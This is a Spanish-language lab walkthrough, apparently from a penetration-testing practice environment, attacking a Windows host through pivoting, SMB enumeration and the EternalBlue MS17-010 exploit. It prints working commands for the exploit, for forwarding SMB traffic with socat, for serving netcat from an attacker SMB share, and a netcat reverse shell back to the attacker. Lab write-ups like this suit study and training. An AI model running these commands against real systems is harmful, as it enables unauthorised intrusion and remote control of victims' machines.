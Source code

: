[[2. Nagini]] #win 

> [!NOTE]  
> La fase de Pivoting y buscar host ya está hecha con Fawkes al estar en la misma subred

# Fase de reconocimiento
Nos encontramos ante un Windows.
## Buscar puertos
```
proxychains nmap -sT -Pn --top-ports 500 -open -T5 -v -n <ip4> 2>/dev/null
```
![[Pasted image 20240423184902.png]]
## Miramos por SMB ante que nos encontramos
```
proxychains crackmapexec smb <ip4> 2>/dev/null
```
![[Pasted image 20240423185017.png]]

# Fase de ataque
##  EternalBlue
Como vemos que tiene SMBv1 activo.
Podemos usar tanto Metaexploit como Autoblue.
https://github.com/3ndG4me/AutoBlue-MS17-010

1. Comprobamos que hay pipes expuestos
```
proxychains python3 eternal_checker.py <ip4>
```
2. Lanzamos el exploit
```
proxychains python2.7 zzz_exploit.py <ip4>
```
[+] ==pwned!==
## Conseguimos una shell completa
1. Descargamos netcat https://eternallybored.org/misc/netcat/
2. Redirigimos con socat el puerto 445 en Nagini y Aragog
```
./socat TCP-LISTEN:445, fork TCP:<ip1>:445
```
3. Abrimos un server smb en el equipo atacante
```
smbserver.py smbFolder $(pwd) -smb2support
```
4. Copiamos a través de archivos compartidos el netcat
```
copy \\<ip2>\smbFolder\nc64.exe C:\Windowss\Temp\nc.exe
```
5. Nos ponemos en escucha por el puerto 445
```
rlwrap nc -nlvp 445
```
6. Ejecutamos el netcat
```
C:\Windows\Temp\nc.exe -e cmd <ip2> 445
```

